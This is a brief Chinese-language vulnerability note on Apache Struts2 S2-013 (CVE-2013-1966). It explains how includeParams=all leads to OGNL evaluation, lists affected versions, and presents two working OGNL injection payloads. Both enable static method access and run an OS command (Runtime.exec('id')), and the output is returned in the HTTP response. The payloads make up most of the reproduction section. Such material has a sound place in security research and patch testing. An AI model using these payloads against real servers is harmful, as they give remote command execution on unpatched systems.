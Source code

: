 （CVE-2013-1966）s2-013
=======================

一、漏洞简介
------------

struts 的标签中 s:a 和 s:url 都有一个 includeParams 属性none - URL中不包含任何参数（默认）get - 仅包含URL中的GET参数all - 在URL中包含GET和POST参数当includeParams=all的时候，会将本次请求的GET和POST参数都放在URL的GET参数上。明明可以urldecode一下就知道params是啥了，但struts给OGNL解析了，就造成了任意代码执行

二、漏洞影响
------------

Struts 2.0.0 - Struts 2.3.14

三、复现过程
------------

### POC 就这2种poc

第一个光有回显

    ${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('id').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#out.println(#d),#out.close())}
    ${#_memberAccess["allowStaticMethodAccess"]=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())}
